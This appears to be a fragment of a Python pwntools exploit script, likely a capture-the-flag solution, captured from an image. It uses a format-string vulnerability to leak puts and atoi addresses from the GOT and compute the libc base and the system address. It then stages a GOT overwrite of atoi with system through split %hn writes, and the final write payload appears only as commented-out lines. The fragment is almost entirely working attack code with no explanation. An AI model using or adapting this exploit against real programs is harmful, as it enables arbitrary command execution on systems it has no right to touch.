 ```python

log.info(f"puts() GOT address: {hex(binary.got['puts'])}")


output = send_format(r, b"%43$s.%44$s.", p64(binary.got["puts"]) + p64(binary.got["atoi"]))


puts_addr_str = output.split(b'.')[0].ljust(8, b'\x00')
atoi_addr_str = output.split(b".")[1].ljust(8, b'\x00')
puts_addr = int.from_bytes(puts_addr_str, "little") 
atoi_addr = int.from_bytes(atoi_addr_str, "little") 

log.info(f"puts() runtime address: {hex(puts_addr)}\n")

log.info(f"atoi() runtime address: {hex(atoi_addr)}\n")


libc_base_addr = u64(puts_addr_str) - puts_offset_libc
log.info(f"libc_base address: {hex(libc_base_addr)}\n")


system_addr = libc_base_addr + system_offset
log.info(f"system address: {hex(system_addr)}\n") 

##########################################################

atoi_got = binary.got['atoi']

log.info(f"atoi() GOT address: {hex(atoi_got)}") 

system_addr_high = (system_addr >> 32) & 0xFFFF
system_addr_medium = (system_addr >> 16) & 0xFFFF
system_addr_low = system_addr & 0xFFFF

print("Original values:")
print("High:", int(system_addr_high))
print("Medium:", int(system_addr_medium))
print("Low:", int(system_addr_low))

values = [
    ("high", system_addr_high, "13" ),
    ("medium", system_addr_medium, "12" ),
    ("low", system_addr_low, "11")
]

values.sort(key=lambda x: x[1])

print("\nSorted values:")

for item in values:
    print(item[0] + ":" , item[1] , item[2] )


payload1 = b"11111111" + p64(atoi_got ) + p64(atoi_got + 2 ) + p64(atoi_got + 4)

r.sendlineafter("A: ",payload1)

#payload2 = b"1_______%1p%12$n%2p%11$n"

# payload2 = b"1_______%" + str(int(system_addr_high) - 46).encode("ascii") + b"p%13$hn%" 
# payload2 += str(int(system_addr_low) - int(system_addr_high)).encode("ascii") + b"p%11$hn%"
# payload2 += str(int(system_addr_medium) - int(system_addr_low)).encode("ascii") + b"p%12$hn--" 
```